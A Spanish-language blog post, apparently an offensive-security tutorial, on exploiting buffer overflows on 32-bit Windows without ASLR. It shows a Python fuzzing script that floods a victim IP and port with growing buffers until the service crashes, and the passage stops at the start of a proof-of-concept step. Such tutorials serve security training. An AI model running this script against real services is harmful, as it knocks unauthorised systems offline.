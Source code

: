 ```yaml
---
title: "Buffer Overflow / W7-N/ASRL"
excerpt_separator: "<!--more-->"
categories:
  - Windows
tags:
  - Codigo Libre
---
```


![](https://itandsecuritystuffs.files.wordpress.com/2014/03/image_thumb2.png?w=617&h=480)
En este apartado os voy a mostar la serie de scripts en python que he estado utilizando para realizar ataques 
en aduditorias en contras fallos de buffer overflow sin la activacion del ASLR en equipos de windows de 32bits.

## Primero / Realizando "Fuzzing"
En primer lugar tenenmos el primer script para realizar "Fuzzing" y hallar un cantidad aproximada de bytes con la 
que peta la victima.

```yml
#!/usr/bin/python
import sys, socket
from time import sleep

""" CANTIDAD DE BYTES QUE VA ITERANDO """
buffer = "A" * 100 

while True:
    try:
        # Aqui vamos a intentar entablar la conexion
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # PON AQUI LA IP DE LA VICTIMA + EL PUERTO POR DONDE CORREO EL SERVICIO
        s.connect(("192.168.1.101",9999)) 

        s.send((buffer))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    
    except:
        print "Fuzzeando el servicio con %s bytes " %str(len(buffer))
        sys.exit(1)
```

## Segundo / Try an "POC"
Gracias al output que nos habra dado la shell victima podemos con este poc ajustar el rango al que 
se produce en buffer en el binario a atacar.
